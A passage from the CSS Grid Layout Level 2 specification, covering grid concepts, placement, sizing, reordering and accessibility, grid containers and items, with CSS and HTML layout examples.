>    *     (but is never smaller than the minimum size of the board
>    *     or the game controls, which occupy this column [Figure 4])
>    *
>    * Three rows:
>    *  3. the first sized to content,
>    *  4. the middle row receives the remaining space
>    *     (but is never smaller than the minimum height
>    *      of the board or stats areas)
>    *  5. the last sized to content.
>    */
>   display: grid;
>   grid-template-columns:
>     /* 1 */ auto
>     /* 2 */ 1fr;
>   grid-template-rows:
>     /* 3 */ auto
>     /* 4 */ 1fr
>     /* 5 */ auto;
> }
>
> /* Specify the position of each grid item using coordinates on
>  * the 'grid-row' and 'grid-column' properties of each grid item.
>  */
> #title    { grid-column: 1; grid-row: 1; }
> #score    { grid-column: 1; grid-row: 3; }
> #stats    { grid-column: 1; grid-row: 2; align-self: start; }
> #board    { grid-column: 2; grid-row: 1 / span 2; }
> #controls { grid-column: 2; grid-row: 3; justify-self: center; }
> ```
>
> ```markup
> <div id="grid">
>   <div id="title">Game Title</div>
>   <div id="score">Score</div>
>   <div id="stats">Stats</div>
>   <div id="board">Board</div>
>   <div id="controls">Controls</div>
> </div>
> ```

> **Note:** There are multiple ways to specify the structure of the grid and to position and size grid items, each optimized for different scenarios.

##### 1.1.2.  Source-Order Independence {#css-grid-2:source-independence}


An arrangement suitable for “portrait” orientation.


An arrangement suitable for “landscape“ orientation.

Continuing the prior example, the author also wants the game to adapt to different devices. Also, the game should optimize the placement of the components when viewed either in portrait or landscape orientation (Figures 6 and 7). By combining grid layout with media queries, the author is able to use the same semantic markup, but rearrange the layout of elements independent of their source order, to achieve the desired layout in both orientations.

The following example uses grid layout’s ability to name the space which will be occupied by a grid item. This allows the author to avoid rewriting rules for grid items as the grid’s definition changes.

> **Example:** ```css
> @media (orientation: portrait) {
>   #grid {
>     display: grid;
>
>     /* The rows, columns and areas of the grid are defined visually
>      * using the grid-template-areas property.  Each string is a row,
>      * and each word an area.  The number of words in a string
>      * determines the number of columns. Note the number of words
>      * in each string must be identical. */
>     grid-template-areas: "title stats"
>                          "score stats"
>                          "board board"
>                          "ctrls ctrls";
>
>     /* The way to size columns and rows can be assigned with the
>      * grid-template-columns and grid-template-rows properties. */
>     grid-template-columns: auto 1fr;
>     grid-template-rows: auto auto 1fr auto;
>   }
> }
>
> @media (orientation: landscape) {
>   #grid {
>     display: grid;
>
>     /* Again the template property defines areas of the same name,
>      * but this time positioned differently to better suit a
>      * landscape orientation. */
>     grid-template-areas: "title board"
>                          "stats board"
>                          "score ctrls";
>
>     grid-template-columns: auto 1fr;
>     grid-template-rows: auto 1fr auto;
>   }
> }
>
> /* The grid-area property places a grid item into a named
>  * area of the grid. */
> #title    { grid-area: title }
> #score    { grid-area: score }
> #stats    { grid-area: stats }
> #board    { grid-area: board }
> #controls { grid-area: ctrls }
> ```
>
> ```markup
> <div id="grid">
>   <div id="title">Game Title</div>
>   <div id="score">Score</div>
>   <div id="stats">Stats</div>
>   <div id="board">Board</div>
>   <div id="controls">Controls</div>
> </div>
> ```

> **Note:** The reordering capabilities of grid layout intentionally affect *only the visual rendering*, leaving speech order and navigation based on the source order. This allows authors to manipulate the visual presentation while leaving the source order intact and optimized for non-CSS UAs and for linear models such as speech and sequential navigation.

**Grid item placement and reordering must not be used as a substitute for correct source ordering, as that can ruin the accessibility of the document.**

#### 1.2.  Value Definitions {#css-grid-2:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Overview {#css-grid-2:overview}

*This section is not normative.*

Grid Layout controls the layout of its content through the use of a grid: an intersecting set of horizontal and vertical lines which create a sizing and positioning coordinate system for the grid container’s contents. Grid Layout features

- fixed, flexible, and content-based [track sizing functions](#css-grid-2:track-sizing)
- [explicit item placement](#css-grid-2:placement) via forwards (positive) and backwards (negative) numerical grid coordinates, named grid lines, and named grid areas; automatic item placement into empty areas, including [reordering with `order`](#css-grid-2:order-property)
- space-sensitive track repetition and automatic addition of rows or columns to accommodate additional content
- control over alignment and spacing with [margins](#css-grid-2:auto-margins), gutters, and the [alignment properties](#css-align-3)
- the ability to overlap content and [control layering with `z-index`](#css-grid-2:z-order)

Grid containers can be nested or mixed with flex containers as necessary to create more complex layouts.

#### 2.1.  Declaring the Grid {#css-grid-2:overview-grid}

The tracks (rows and columns) of the grid are declared and sized either explicitly through the explicit grid properties or are implicitly created when items are placed outside the explicit grid. The `grid` shorthand and its sub-properties define the parameters of the grid. [§ 7 Defining the Grid](#css-grid-2:grid-definition)

> **Example:** Below are some examples of grid declarations:
>
> - The following declares a grid with four named areas: `H`, `A`, `B`, and `F`. The first column is sized to fit its contents (`auto`), and the second column takes up the remaining space (`1fr`). Rows default to `auto` (content-based) sizing; the last row is given a fixed size of `30px`.
>
>   ```
>   main {
>   display: grid;
>   grid: "H    H "
>         "A    B "
>         "F    F " 30px
>   /     auto 1fr;
>   }
>   ```
> - The following declares a grid with as many rows of at least `5em` as will fit in the height of the grid container (`100vh`). The grid has no explicit columns; instead columns are added as content is added, the resulting column widths are equalized (`1fr`). Since content overflowing to the right won’t print, an alternate layout for printing adds rows instead.
>
>   ```
>   main {
>   display: grid;
>   grid: repeat(auto-fill, 5em) / auto-flow 1fr;
>   height: 100vh;
>   }
>   @media print {
>   main {
>     grid: auto-flow 1fr / repeat(auto-fill, 5em);
>   }
>   }
>   ```
> - The following declares a grid with 5 evenly-sized columns and three rows, with the middle row taking up all remaining space (and at least enough to fit its contents).
>
>   ```
>   main {
>   display: grid;
>   grid: auto 1fr auto / repeat(5, 1fr);
>   min-height: 100vh;
>   }
>   ```

#### 2.2.  Placing Items {#css-grid-2:overview-placement}

The contents of the grid container are organized into individual grid items (analogous to flex items), which are then assigned to predefined areas in the grid. They can be explicitly placed using coordinates through the grid-placement properties or implicitly placed into empty areas using auto-placement. [§ 8 Placing Grid Items](#css-grid-2:placement)

> **Example:** Below are some examples of grid placement declarations using the `grid-area` shorthand:
>
> ```
> grid-area: a;          /* Place into named grid area “a”     */
> grid-area: auto;       /* Auto-place into next empty area    */
> grid-area: 2 / 4;      /* Place into row 2, column 4         */
> grid-area: 1 / 3 / -1; /* Place into column 3, span all rows */
> grid-area: header-start / sidebar-start / footer-end / sidebar-end;
>                        /* Place using named lines            */
> ```
>
> These are equivalent to the following `grid-row` + `grid-column` declarations:
>
> ```
> grid-row: a;                         grid-column: a;
> grid-row: auto;                      grid-column: auto;
> grid-row: 2;                         grid-column: 4;
> grid-row: 1 / -1;                    grid-column: 3;
> grid-row: header-start / footer-end; grid-column: sidebar-start / sidebar-end;
> ```
>
> They can further be decomposed into the `grid-row-start`/`grid-row-end`/`grid-column-start`/`grid-column-end` longhands, e.g.
>
> ```
> grid-area: a;
> /* Equivalent to grid-row-start: a; grid-column-start: a; grid-row-end: a; grid-column-end: a; */
>
> grid-area: 1 / 3 / -1;
> /* Equivalent to grid-row-start: 1; grid-column-start: 3; grid-row-end: -1; grid-column-end: auto; */
> ```

#### 2.3.  Sizing the Grid {#css-grid-2:overview-sizing}

Once the grid items have been [placed](#css-grid-2:placement), the sizes of the grid tracks (rows and columns) are calculated, accounting for the sizes of their contents and/or available space as specified in the grid definition.

The resulting sized grid is [aligned](#css-grid-2:grid-align) within the grid container according to the grid container’s `align-content` and `justify-content` properties. [§ 11 Alignment and Spacing](#css-grid-2:alignment)

> **Example:** The following example justifies all columns by distributing any extra space between them, and centers the grid in the grid container when it is smaller than 100vh.
>
> ```
> main {
>   display: grid;
>   grid: auto-flow auto / repeat(auto-fill, 5em);
>   min-height: 100vh;
>   justify-content: space-between;
>   align-content: safe center;
> }
> ```

Finally each grid item is sized and aligned within its assigned grid area, as specified by its own [sizing](#css2) [CSS2] and alignment properties [CSS-ALIGN-3].

### 3.  Grid Layout Concepts and Terminology {#css-grid-2:grid-concepts}

In **grid layout**, the content of a grid container is laid out by positioning and aligning it into a grid. The **grid** is an intersecting set of horizontal and vertical grid lines that divides the grid container’s space into grid areas, into which grid items (representing the grid container’s content) can be placed. There are two sets of grid lines: one set defining **columns** that run along the [block axis](#css-writing-modes-4:block-axis), and an orthogonal set defining **rows** along the [inline axis](#css-writing-modes-4:inline-axis). [CSS3-WRITING-MODES]


Grid lines: Three in the block axis and four in the inline axis.

#### 3.1.  Grid Lines {#css-grid-2:grid-line-concept}

**Grid lines** are the horizontal and vertical dividing lines of the grid. A grid line exists on either side of a column or row. They can be referred to by numerical index, or by an author-specified name. A grid item references the grid lines to determine its position within the grid using the [grid-placement properties](#css-grid-2:placement).

> **Example:** The following two examples both create three column grid lines and four row grid lines.
>
> This first example demonstrates how an author would position a grid item using grid line numbers:
>
> ```css
> #grid {
>   display: grid;
>   grid-template-columns: 150px 1fr;
>   grid-template-rows: 50px 1fr 50px;
> }
>
> #item1 { grid-column: 2;
>          grid-row-start: 1; grid-row-end: 4; }
> ```
>
> This second example uses explicitly named grid lines:
>
> ```css
> /* equivalent layout to the prior example, but using named lines */
> #grid {
>   display: grid;
>   grid-template-columns: 150px [item1-start] 1fr [item1-end];
>   grid-template-rows: [item1-start] 50px 1fr 50px [item1-end];
> }
>
> #item1 {
>   grid-column: item1-start / item1-end;
>   grid-row: item1-start / item1-end;
> }
> ```

#### 3.2.  Grid Tracks and Cells {#css-grid-2:grid-track-concept}

**Grid track** is a generic term for a grid column or grid row—in other words, it is the space between two adjacent grid lines. Each grid track is assigned a sizing function, which controls how wide or tall the column or row may grow, and thus how far apart its bounding grid lines are. Adjacent grid tracks can be separated by [gutters](#css-grid-2:gutters) but are otherwise packed tightly.

A **grid cell** is the intersection of a grid row and a grid column. It is the smallest unit of the grid that can be referenced when positioning grid items.

> **Example:** In the following example there are two columns and three rows. The first column is fixed at 150px. The second column uses flexible sizing, which is a function of the unassigned space in the grid, and thus will vary as the width of the grid container changes. If the used width of the grid container is 200px, then the second column is 50px wide. If the used width of the grid container is 100px, then the second column is 0px and any content positioned in the column will overflow the grid container.
>
> ```
> #grid {
>   display: grid;
>   grid-template-columns: 150px 1fr;  /* two columns */
>   grid-template-rows: 50px 1fr 50px; /* three rows  */
> }
> ```

#### 3.3.  Grid Areas {#css-grid-2:grid-area-concept}

A **grid area** is the logical space used to lay out one or more grid items. A grid area consists of one or more adjacent grid cells. It is bound by four grid lines, one on each side of the grid area, and participates in the sizing of the grid tracks it intersects. A grid area can be named explicitly using the `grid-template-areas` property of the grid container, or referenced implicitly by its bounding grid lines. A grid item is assigned to a grid area using the [grid-placement properties](#css-grid-2:placement).

> **Example:** ```
> /* using the template syntax */
> #grid  {
>   display: grid;
>   grid-template-areas: ". a"
>                        "b a"
>                        ". a";
>   grid-template-columns: 150px 1fr;
>   grid-template-rows: 50px 1fr 50px;
>   height: 100vh;
> }
>
> #item1 { grid-area: a }
> #item2 { grid-area: b }
> #item3 { grid-area: b }
>
> /* Align items 2 and 3 at different points in the grid area "b".  */
> /* By default, grid items are stretched to fit their grid area    */
> /* and these items would layer one over the other. */
> #item2 { align-self: start; }
> #item3 { justify-self: end; align-self: end; }
> ```

A grid item’s grid area forms the containing block into which it is laid out. Grid items placed into the same grid area do not directly affect each other’s layout. Indirectly, however, a grid item occupying a grid track with an intrinsic sizing function can affect the size of that track (and thus the positions of its bounding grid lines), which in turn can affect the position or size of another grid item.

#### 3.4.  Nested vs. Subgridded Items {#css-grid-2:subgrid-items}

A grid item can itself be a grid container by giving it `display: grid`. In the general case the layout of this **nested grid**’s contents will be independent of the layout of the **parent grid** it participates in.

However, in some cases it might be necessary for the contents of multiple grid items to align to each other. A nested grid can defer the definition of its rows and/or columns to its parent grid container, making it a **subgrid**. In this case, the grid items of the subgrid participate in sizing the parent grid, allowing the contents of both grids to align. See [§ 9 Subgrids](#css-grid-2:subgrids).

A subgrid is established by the `subgrid` keyword of `grid-template-rows` or `grid-template-columns`, and can be subgridded in either axis or in both. A grid that has no subgridded axis is a **standalone grid**.

> **Example:** For example, suppose we have a form consisting of a list of inputs with labels:
>
> ```html
> <ul>
>   <li><label>Name:</label> <input name=fn>
>   <li><label>Address:</label> <input name=address>
>   <li><label>Phone:</label> <input name=phone>
> </ul>
> ```
>
> We want the labels and inputs to align, and we want to style each list item with a border. This can be accomplished with subgrid layout:
>
> ```
> ul {
>   display: grid;
>   grid: auto-flow / auto 1fr;
> }
> li {
>   grid-column: span 2;
>   display: grid;
>   grid-template-columns: subgrid;
>   border: solid;
> }
> label {
>   grid-column: 1;
> }
> input {
>   grid-column: 2;
> }
> ```

### 4.  Reordering and Accessibility {#css-grid-2:order-accessibility}

Grid layout gives authors great powers of rearrangement over the document. However, these are not a substitute for correct ordering of the document source. The `order` property and grid placement *do not* affect ordering in non-visual media (such as [speech](#css-speech-1)). Likewise, rearranging grid items visually does not affect the default traversal order of sequential navigation modes (such as cycling through links, see e.g. [`tabindex`](https://html.spec.whatwg.org/multipage/interaction.html#attr-tabindex) [HTML]).

**Authors *must* use `order` and the grid-placement properties only for visual, not logical, reordering of content. Style sheets that use these features to perform logical reordering are non-conforming.**

> **Note:** This is so that non-visual media and non-CSS UAs, which typically present content linearly, can rely on a logical source order, while grid layout’s placement and ordering features are used to tailor the visual arrangement. (Since visual perception is two-dimensional and non-linear, the desired visual order is not always equivalent to the desired reading order.)

> **Example:** Many web pages have a similar shape in the markup, with a header on top, a footer on bottom, and then a content area and one or two additional columns in the middle. Generally, it’s desirable that the content come first in the page’s source code, before the additional columns. However, this makes many common designs, such as simply having the additional columns on the left and the content area on the right, difficult to achieve. This has been addressed in many ways over the years, often going by the name "Holy Grail Layout" when there are two additional columns. Grid Layout makes this example trivial. For example, take the following sketch of a page’s code and desired layout:
>
> ```markup
> <!DOCTYPE html>
> <header>...</header>
> <main>...</main>
> <nav>...</nav>
> <aside>...</aside>
> <footer>...</footer>
> ```
>
> 
>
> This layout can be easily achieved with grid layout:
>
> ```css
> body { display: grid;
>        grid: "h h h"
>              "a b c"
>              "f f f";
>        grid-template-columns: auto 1fr 20%; }
> main    { grid-area: b; min-width: 12em;     }
> nav     { grid-area: a; /* auto min-width */ }
> aside   { grid-area: c; min-width: 12em;     }
> ```
>
> As an added bonus, the columns will all be `equal-height` by default, and the main content will be as wide as necessary to fill the screen. Additionally, this can then be combined with media queries to switch to an all-vertical layout on narrow screens:
>
> ```css
> @media all and (max-width: 60em) {
>   /* Too narrow to support three columns */
>   body { display: block; }
> }
> ```

In order to preserve the author’s intended ordering in all presentation modes, authoring tools—including WYSIWYG editors as well as Web-based authoring aids—​must reorder the underlying document source and not use `order` or grid-placement properties to perform reordering unless the author has explicitly indicated that the underlying document order (which determines speech and navigation order) should be *out-of-sync* with the visual order.

> **Example:** For example, a tool might offer both drag-and-drop arrangement of grid items as well as handling of media queries for alternate layouts per screen size range.
>
> Since most of the time, reordering should affect all screen ranges as well as navigation and speech order, the tool would match the resulting drag-and-drop visual arrangement by simultaneously reordering the DOM layer. In some cases, however, the author may want different visual arrangements per screen size. The tool could offer this functionality by using the grid-placement properties together with media queries, but also tie the smallest screen size’s arrangement to the underlying DOM order (since this is most likely to be a logical linear presentation order) while using grid-placement properties to rearrange the visual presentation in other size ranges.
>
> This tool would be conformant, whereas a tool that only ever used the grid-placement properties to handle drag-and-drop grid rearrangement (however convenient it might be to implement it that way) would be non-conformant.

### 5.  Grid Containers {#css-grid-2:grid-model}

#### 5.1.  Establishing Grid Containers: the `grid` and `inline-grid` `display` values {#css-grid-2:grid-containers}

| Field | Value |
| --- | --- |
| Name: | `display` |
| [New values:](#css-values-4:value-defs) | grid \| inline-grid |

****grid****

: This value causes an element to generate a grid container box that is block-level when placed in flow layout.

****inline-grid****

: This value causes an element to generate a grid container box that is inline-level when placed in flow layout.

A **grid container** that is not a subgrid establishes an independent **grid formatting context** for its contents. This is the same as establishing an independent block formatting context, except that grid layout is used instead of block layout: floats do not intrude into the grid container, and the grid container’s margins do not collapse with the margins of its contents. The contents of a grid container are laid out into a grid, with grid lines forming the boundaries of each grid items’ containing block.

Unlike those of a regular nested grid, a subgrid’s contents participate in its parent grid formatting context; thus a subgrid does not establish an independent formatting context.

Grid containers are not block containers, and so some properties that were designed with the assumption of block layout don’t apply in the context of grid layout. In particular:

- `float` and `clear` have no effect on a grid item. However, the `float` property still affects the computed value of `display` on children of a grid container, as this occurs *before* grid items are determined.
- `vertical-align` has no effect on a grid item.
- the `::first-line` and `::first-letter` pseudo-elements do not apply to grid containers, and grid containers do not contribute a first formatted line or first letter to their ancestors.

If an element’s specified `display` is `inline-grid` and the element is floated or absolutely positioned, the computed value of `display` is `grid`. The table in [CSS 2.1 Chapter 9.7](#css2:dis-pos-flo) is thus amended to contain an additional row, with `inline-grid` in the "Specified Value" column and `grid` in the "Computed Value" column.

#### 5.2.  Sizing Grid Containers {#css-grid-2:intrinsic-sizes}

Note see [CSS-SIZING-3] for a definition of the terms in this section.

A grid container is sized using the rules of the formatting context in which it participates:

- As a block-level box in a block formatting context, it is sized like a block box that establishes a formatting context, with an `auto` inline size calculated as for non-replaced block boxes.
- As an inline-level box in an inline formatting context, it is sized as an atomic inline-level box (such as an inline-block).

In both inline and block formatting contexts, the grid container’s `auto` block size is its max-content size.

The block layout spec should probably define this, but it isn’t written yet.

The max-content size (min-content size) of a grid container is the sum of the grid container’s track sizes (including gutters) in the appropriate axis, when the grid is sized under a max-content constraint (min-content constraint).

#### 5.3.  Scrollable Grid Overflow {#css-grid-2:overflow}

The `overflow` property applies to grid containers.

Just as it is included in intrinsic sizing (see [§ 5.2 Sizing Grid Containers](#css-grid-2:intrinsic-sizes)), the grid is also included in a grid container’s scrollable overflow region.

> **Note:** Beware the interaction with padding when the grid container is a scroll container: additional padding is defined to be added to the scrollable overflow rectangle as needed to enable `place-content: end` alignment of scrollable content. See [CSS Overflow 3 § 2.2 Scrollable Overflow](#css-overflow-3:scrollable)

#### 5.4.  Limiting Large Grids {#css-grid-2:overlarge-grids}

Since memory is limited, UAs may clamp the possible size of the implicit grid to be within a UA-defined limit (which should accommodate lines in the range [-10000, 10000]), dropping all lines outside that limit. If a grid item is placed outside this limit, its grid area must be clamped to within this limited grid.

To **clamp a grid area**:

- If the grid area would span outside the limited grid, its span is clamped to the last line of the limited grid.
- If the grid area would be placed completely outside the limited grid, its span must be truncated to 1 and the area repositioned into the last grid track on that side of the grid.

> **Example:** For example, if a UA only supported grids with at most 1000 tracks in each dimension, the following placement properties:
>
> ```css
> .grid-item {
>   grid-row: 500 / 1500;
>   grid-column: 2000 / 3000;
> }
> ```
>
> Would end up being equivalent to:
>
> ```css
> .grid-item {
>   grid-row: 500 / 1001;
>   grid-column: 1000 / 1001;
> }
> ```

### 6.  Grid Items {#css-grid-2:grid-items}

Loosely speaking, the **grid items** of a grid container are boxes representing its in-flow contents.

Each in-flow child of a grid container becomes a grid item, and each child text sequence is wrapped in an anonymous block container grid item. However, if the text sequence contains only [white space](#css2:white-space-prop) (i.e. characters that can be affected by the `white-space` property) it is instead not rendered (just as if its text nodes were `display:none`).

> **Example:** s of grid items:
>
> ```markup
> <div style="display: grid">
>
>   <!-- grid item: block child -->
>   <div id="item1">block</div>
>
>   <!-- grid item: floated element; floating is ignored -->
>   <div id="item2" style="float: left;">float</div>
>
>   <!-- grid item: anonymous block box around inline content -->
>   anonymous item 3
>
>   <!-- grid item: inline child -->
>   <span>
>     item 4
>     <!-- grid items do not split around blocks -->
>     <q style="display: block" id=not-an-item>item 4</q>
>     item 4
>   </span>
> </div>
> ```
>
> grid items determined from above code block
>
> [grid item containing `block`. grid item containing `float`. (Anonymous, unstyleable) grid item containing `anonymous item 3`. grid item containing three blocks in succession:  Anonymous block containing `item 4`. `<q>` element block containing `item 4`. Anonymous block containing `item 4`.](../css-grid-2/examples/grid-item-determination.html)

> **Note:** inter-element white space disappears: it does not become its own grid item, even though inter-element text *does* get wrapped in an anonymous grid item.

> **Note:** The box of a anonymous item is unstyleable, since there is no element to assign style rules to. Its contents will however inherit styles (such as font settings) from the grid container.

#### 6.1.  Grid Item Display {#css-grid-2:grid-item-display}

Unless it is a subgrid, a grid item establishes an independent formatting context for its contents. However, grid items are **grid-level** boxes, not block-level boxes: they participate in their container’s grid formatting context, not in a block formatting context.

If the computed `display` value of an element’s nearest ancestor element (skipping `display:contents` ancestors) is `grid` or `inline-grid`, the element’s own `display` value is blockified. (See [CSS2.1§9.7](#css2:dis-pos-flo) [CSS2] and [CSS Display 3 § 2.7 Automatic Box Type Transformations](#css-display-4:transformations) for details on this type of `display` value conversion.)

> **Note:** Blockification still occurs even when the `grid` or `inline-grid` element does not end up generating a grid container box, e.g. when it is replaced or in a `display: none` subtree.

> **Note:** Some values of `display` normally trigger the creation of anonymous boxes around the original box. If such a box is a grid item, it is blockified first, and so anonymous box creation will not happen. For example, two contiguous grid items with `display: table-cell` will become two separate `display: block` grid items, instead of being wrapped into a single anonymous table.

#### 6.2.  Grid Item Sizing {#css-grid-2:grid-item-sizing}

A grid item is sized within the containing block defined by its grid area.

Grid item calculations for automatic sizes in a given dimensions vary by their [self-alignment values](#css-align-3:self-alignment):

**`normal`**

: If the grid item has no preferred aspect ratio, and no natural size in the relevant axis (if it is a replaced element), the grid item is sized as for `align-self: stretch`.

  Otherwise, the grid item is sized consistent with the size calculation rules for block-level elements for the corresponding axis. (See [CSS 2 §  10 Visual formatting model details](#css2:q10.0).)

**`stretch`**

: Use the inline size calculation rules for non-replaced boxes (defined in [CSS 2 § 10.3.3 Block-level, non-replaced elements in normal flow](#css2:blockwidth)), i.e. the stretch-fit size.

  > **Note:** This can distort the aspect ratio of an item with a preferred aspect ratio, if its size is also constrained in the other axis.

**all other values**

: Size the item as `fit-content`.

> **Note:** The following informative table summarizes the automatic sizing of grid items:
>
> | Alignment | Non-replaced Element Size | Replaced Element Size |
> | --- | --- | --- |
> | `normal` | Fill grid area | Use natural size |
> | `stretch` | Fill grid area | Fill grid area |
> | `start`/`center`/etc. | `fit-content` sizing (like floats) | Use natural size |

> **Note:** The `auto` value of `min-width` and `min-height` affects track sizing in the relevant axis similar to how it affects the main size of a flex item. See [§ 6.6 Automatic Minimum Size of Grid Items](#css-grid-2:min-size-auto).

#### 6.3.  Reordered Grid Items: the `order` property {#css-grid-2:order-property}

The `order` property also applies to grid items. It affects their [auto-placement](#css-grid-2:grid-auto-flow-property) and [painting order](#css-grid-2:z-order).

**As with reordering flex items, the `order` property must only be used when the visual order needs to be *out-of-sync* with the speech and navigation order; otherwise the underlying document source should be reordered instead. See [CSS Display 3 § 3.1 Reordering and Accessibility](#css-display-4:order-accessibility) in [CSS-DISPLAY-3].**

#### 6.4.  Grid Item Margins and Paddings {#css-grid-2:item-margins}

As adjacent grid items are independently contained within the containing block formed by their grid areas, the margins of adjacent grid items do not [collapse](#css2:collapsing-margins).

Percentage margins and paddings on grid items, like those on block boxes, are resolved against the inline size of their containing block, e.g. left/right/top/bottom percentages all resolve against their containing block’s *width* in horizontal writing modes.

Auto margins expand to absorb extra space in the corresponding dimension, and can therefore be used for alignment. See [§ 11.2 Aligning with auto margins](#css-grid-2:auto-margins)

#### 6.5.  Z-axis Ordering: the `z-index` property {#css-grid-2:z-order}

Grid items can overlap when they are positioned into intersecting grid areas, or even when positioned in non-intersecting areas because of negative margins or positioning. The painting order of grid items is exactly the same as inline blocks [CSS2], except that order-modified document order is used in place of raw document order, and `z-index` values other than `auto` create a stacking context even if `position` is `static` (behaving exactly as if `position` were `relative`). Thus the `z-index` property can easily be used to control the z-axis order of grid items.

> **Note:** Descendants that are positioned outside a grid item still participate in any stacking context established by the grid item.

> **Example:** The following diagram shows several overlapping grid items, with a combination of implicit source order and explicit `z-index` used to control their stacking order.
>
> 
>
> Drawing order controlled by z-index and source order.
>
> ```
> <style type="text/css">
> #grid {
>   display: grid;
>   grid-template-columns: 1fr 1fr;
>   grid-template-rows: 1fr 1fr
> }
> #A { grid-column: 1 / span 2; grid-row: 2; align-self: end; }
> #B { grid-column: 1; grid-row: 1; z-index: 10; }
> #C { grid-column: 2; grid-row: 1; align-self: start; margin-left: -20px; }
> #D { grid-column: 2; grid-row: 2; justify-self: end; align-self: start; }
> #E { grid-column: 1 / span 2; grid-row: 1 / span 2;
>      z-index: 5; justify-self: center; align-self: center; }
> </style>
>
> <div id="grid">
>   <div id="A">A</div>
>   <div id="B">B</div>
>   <div id="C">C</div>
>   <div id="D">D</div>
>   <div id="E">E</div>
> </div>
> ```

#### 6.6.  Automatic Minimum Size of Grid Items {#css-grid-2:min-size-auto}

> **Note:** Much of the sizing terminology used in this section (and throughout the rest of the specification) is defined in [CSS Intrinsic and Extrinsic Sizing](#css-sizing-3) [CSS-SIZING-3].

To provide a more reasonable default minimum size for grid items, the used value of its automatic minimum size in a given axis is the content-based minimum size if all of the following are true:

- its computed `overflow` is not a scrollable overflow value
- it spans at least one track in that axis whose min track sizing function is `auto`
- if it spans more than one track in that axis, none of those tracks are flexible

Otherwise, the automatic minimum size is zero, as usual.

> **Note:** The content-based minimum size is a type of intrinsic size contribution, and thus the provisions in [CSS Sizing 3 § 5.2 Intrinsic Contributions](#css-sizing-3:intrinsic-contribution) apply.

The **content-based minimum size** for a grid item in a given dimension is its specified size suggestion if it exists, otherwise its transferred size suggestion if that exists and the element is replaced, else its content size suggestion, see below. However, if in a given dimension the grid item spans only grid tracks that have a fixed max track sizing function, then its specified size suggestion and content size suggestion in that dimension (and its input from this dimension to the transferred size suggestion in the opposite dimension) are further clamped to less than or equal to the stretch fit into the grid area’s maximum size in that dimension, as represented by the sum of those grid tracks’ max track sizing functions plus any intervening fixed gutters.

In all cases, the size suggestion is additionally clamped by the maximum size in the affected axis, if it’s definite. If the item is a [compressible replaced element](#css-sizing-3:min-content-zero), and has a definite preferred size or maximum size in the relevant axis, the size suggestion is capped by those sizes; for this purpose, any indefinite percentages in these sizes are resolved against zero (and considered definite).

> **Note:** The argument to `fit-content()` does *not* clamp the content-based minimum size in the same way as a fixed max track sizing function.

The content size suggestion, specified size suggestion, and transferred size suggestion used in this calculation account for the relevant min/max/preferred size properties so that the content-based minimum size does not interfere with any author-provided constraints, and are defined below:

****specified size suggestion****

: If the item’s preferred size in the relevant axis is definite, then the specified size suggestion is that size. It is otherwise undefined.

****transferred size suggestion****

: If the item has a preferred aspect ratio and its preferred size in the opposite axis is definite, then the transferred size suggestion is that size (clamped by the opposite-axis minimum and maximum sizes if they are definite), converted through the aspect ratio. It is otherwise undefined.

  If the item has a definite preferred size or maximum size in the relevant axis, the transferred size suggestion is capped by those sizes; for this purpose, any indefinite percentages in these sizes are resolved against zero (and considered definite).

****content size suggestion****

: The content size suggestion is the min-content size in the relevant axis, clamped, if it has a preferred aspect ratio, by any definite opposite-axis minimum and maximum sizes converted through the aspect ratio.

For the purpose of calculating an intrinsic size of the box (e.g. the box’s min-content size), a content-based minimum size causes the box’s size in that axis to become indefinite (even if e.g. its `width` property specifies a definite size). Note this means that percentages calculated against this size will behave as auto.

For any purpose *other than* calculating intrinsic sizes, a content-based minimum size (unlike an explicit `min-content`/etc minimum size) does not force the box’s size to become indefinite. However, if a percentage resolved against the box’s size *before* this minimum was applied, it must be re-resolved against the new size after it is applied.

> **Note:** that while a content-based minimum size is often appropriate, and helps prevent content from overlapping or spilling outside its container, in some cases it is not:
>
> In particular, if grid layout is being used for a major content area of a document, it is better to set an explicit font-relative minimum width such as `min-width: 12em`. A content-based minimum width could result in a large table or large image stretching the size of the entire content area, potentially into an overflow zone, and thereby making lines of text needlessly long and hard to read.
>
> Note also, when content-based sizing is used on an item with large amounts of content, the layout engine must traverse all of this content before finding its minimum size, whereas if the author sets an explicit minimum, this is not necessary. (For items with small amounts of content, however, this traversal is trivial and therefore not a performance concern.)

### 7.  Defining the Grid {#css-grid-2:grid-definition}

#### 7.1.  The Explicit Grid {#css-grid-2:explicit-grids}

The three properties `grid-template-rows`, `grid-template-columns`, and `grid-template-areas` together define the **explicit grid** of a grid container by specifying its **explicit grid tracks**. The final grid may end up larger due to grid items placed outside the explicit grid; in this case implicit tracks will be created, these implicit tracks will be sized by the `grid-auto-rows` and `grid-auto-columns` properties.

The size of the explicit grid is determined by the larger of the number of rows/columns defined by `grid-template-areas` and the number of rows/columns sized by `grid-template-rows`/`grid-template-columns`. Any rows/columns defined by `grid-template-areas` but not sized by `grid-template-rows`/`grid-template-columns` take their size from the `grid-auto-rows`/`grid-auto-columns` properties. If these properties don’t define *any* explicit tracks the explicit grid still contains one grid line in each axis.

Numeric indexes in the grid-placement properties count from the edges of the explicit grid. Positive indexes count from the start side (starting from 1 for the start-most explicit line), while negative indexes count from the end side (starting from -1 for the end-most explicit line).

The `grid` and `grid-template` properties are shorthands that can be used to set all three **explicit grid properties** (`grid-template-rows`, `grid-template-columns`, and `grid-template-areas`) at the same time. The `grid` shorthand also resets properties controlling the implicit grid, whereas the `grid-template` property leaves them unchanged.

#### 7.2.  Explicit Track Sizing: the `grid-template-rows` and `grid-template-columns` properties {#css-grid-2:track-sizing}

| Field | Value |
| --- | --- |
| Name: | **grid-template-columns**, **grid-template-rows** |
| [Value:](#css-values-4:value-defs) | none \| `<track-list>` \| `<auto-track-list>` \| subgrid `<line-name-list>`? |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to corresponding dimension of the content area |
| [Computed value:](#css-cascade-6:computed) | the keyword `none` or a computed track list |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
